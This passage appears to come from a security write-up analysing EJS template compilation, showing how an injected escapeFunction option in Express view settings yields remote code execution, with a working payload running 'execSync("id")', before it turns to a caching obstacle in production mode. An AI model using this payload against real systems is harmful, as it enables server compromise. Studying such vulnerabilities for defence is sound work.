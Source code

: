 ``` js
      throw new Error('Internal EJS error: no file name or template '
                    + 'provided');
    }
    template = fileLoader(filename).toString().replace(_BOM, '');
  }
  func = exports.compile(template, options);
  if (options.cache) {
    exports.cache.set(filename, func);
  }
  return func;
}
```

If `options.cache` is set, use the already compiled content in the cache, otherwise compile it again.

The most important part is [compile](https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L571), which has the following code:

``` js
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```

It will use `escapeFn` to concatenate the code.

So we just need to pass in:

``` js
const payload = {
  settings: {
    'view options': {
      client: true,
      escapeFunction: '(() => {});return process.mainModule.require("child_process").execSync("id").toString()'
    }
  }
}
```

to execute any code and achieve RCE.

## Cache Issue

Although the previous explanation was smooth, there is a cache issue.

Under production mode, view cache will be [automatically enabled](https://github.com/expressjs/express/blob/4.18.2/lib/application.js#L126):

``` js
if (env === 'production') {
  this.enable('view cache');
}
```
